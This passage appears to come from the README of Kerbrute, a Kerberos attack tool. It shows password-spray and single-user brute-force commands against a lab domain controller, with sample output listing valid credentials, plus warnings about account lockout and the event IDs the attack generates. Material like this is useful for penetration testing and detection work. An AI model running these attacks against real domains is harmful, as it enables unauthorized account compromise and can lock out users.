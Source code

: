 ### Ataque de rociado de contraseñas
With `passwordspray`, Kerbrute will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. WARNING: this does will increment the failed login count and lock out accounts. This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:37:29 >  Using KDC(s):
2019/03/06 21:37:29 >   pdc01.lab.ropnop.com:88

2019/03/06 21:37:35 >  [+] VALID LOGIN:  callen@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  [+] VALID LOGIN:  eshort@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  Done! Tested 2755 logins (2 successes) in 7.674 seconds
```

### Brute User
This is a traditional bruteforce account against a username. Only run this if you are sure there is no lockout policy! This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:38:24 >  Using KDC(s):
2019/03/06 21:38:24 >   pdc01.lab.ropnop.com:88

2019/03/06 21:38:27 >  [+] VALID LOGIN:  thoffman@lab.ropnop.com:Summer2017
2019/03/06 21:38:27 >  Done! Tested 1001 logins (1 successes) in 2.711 seconds
```
